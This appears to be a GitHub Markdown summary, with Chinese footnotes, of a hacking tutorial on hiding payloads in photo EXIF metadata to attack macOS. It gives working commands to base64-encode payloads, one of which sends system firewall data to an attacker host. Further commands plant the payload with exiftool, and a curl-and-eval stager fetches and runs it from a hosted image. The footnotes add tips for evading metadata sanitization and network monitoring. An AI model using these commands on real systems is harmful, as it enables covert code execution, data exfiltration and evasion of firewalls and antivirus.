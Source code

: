 ## How to Hide Payloads Inside Photo Metadata

### Why Embed Payloads into Images? [^1]

- Firewall Evasion
- Deep Packet Inspection Evasion
- Antivirus Evasion

### Tools to Be Familiar With [^2]

1. Download an Image

   ​	`wget https://img.wonderhowto.com/img/40/73/63692360022109/0/hacking-macos-hide-payloads-inside-photo-metadata.1280x600.jpg -O image.jpg`

   

2. Generate the Payload

   ​	`printf 'touch ~/Desktop/hacked' | base64 | tr -d '\n'` [^3]

   ​	`printf 'd=$(system_profiler SPFirewallDataType);curl -s --data "​$d" -X POST http://attacker.com/index.php' | base64 | tr -d '\n'` [^4]

   

3. Embed the Payload into the Image

   ​	`apt-get update && apt-get install exiftool -V`

   ​	`exiftool -all= image.jpg`

   ​	`exiftool -Certificate='dG91Y2ggfi9EZXNrdG9wL2hhY2tlZA==' image.jpg`

   ​	`exiftool image.jpg`

   

4. Upload the Image to a Website
   - Avoid EXIF Data Sanitization [^5]
   - Website Encryption
   - Web Traffic Irregularities [^6]

5. Generate the Stager

   `p=$(curl -s https://website.com/image.jpg | grep Cert -a | sed 's/<[^>]*>//g' | base64 -D);eval $p`



[原文](https://null-byte.wonderhowto.com/how-to/hacking-macos-hide-payloads-inside-photo-metadata-0196815/)

---

[^1]: 在大多数情况下，不需要将有效负载隐藏在图像文件中。然而，在高度安全的环境中，[每个域](https://youtu.be/uGN6NYFkrh4?t=200)都由防火墙软件记录，隐藏有效载荷的内容和来源可能是有益的
[^2]: **[curl](https://linux.die.net/man/1/curl)**，**[system_profiler](https://null-byte.wonderhowto.com/how-to/hacking-macos-perform-situational-awareness-attacks-part-1-using-system-profiler-arp-0186422/)**，**[exiftool](https://null-byte.wonderhowto.com/how-to/change-file-metadata-access-modification-date-0166024/)**，**[grep](https://null-byte.wonderhowto.com/how-to/hack-like-pro-linux-basics-for-aspiring-hacker-part-10-manipulating-text-0148539/)**和**[Bash](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/#jump-step1)**脚本等工具

[^3]: `dG91Y2ggfi9EZXNrdG9wL2hhY2tlZA==`
[^4]: `ZD0kKHN5c3RlbV9wcm9maWxlciBTUEZpcmV3YWxsRGF0YVR5cGUpO2N1cmwgLXMgLS1kYXRhICIkZCIgLVggUE9TVCBodHRwOi8vYXR0YWNrZXIuY29tL2luZGV4LnBocA==`
[^5]: Twitter，Imgur和Instagram等许多热门网站在上传时会自动从图像中删除元数据，这主要是为了保护用户不会意外上传包含GPS坐标的照片，这些照片会让网络用户和网络欺诈者骚扰并找到这些用户。包含有效载荷的图像在上传到主流网站时将被擦除。候选网站必须先手动测试，首先上传图像，然后下载，并使用exiftool查看嵌入的有效载荷是否仍然完整
[^6]: 理想情况下，攻击中使用的网站将是目标定期访问的网站。例如，如果目标每天早上访问一个特定的新闻网站，那么访问该域对于监视网络流量的系统管理员来说似乎不会产生怀疑。另一方面，对外国网站或成人网站的异常GET请求可能会引发一些危险信号。在侦察阶段可以使用隐蔽数据包捕获来枚举这种信息。关键是尽可能使流量看起来与目标的Web行为一样普通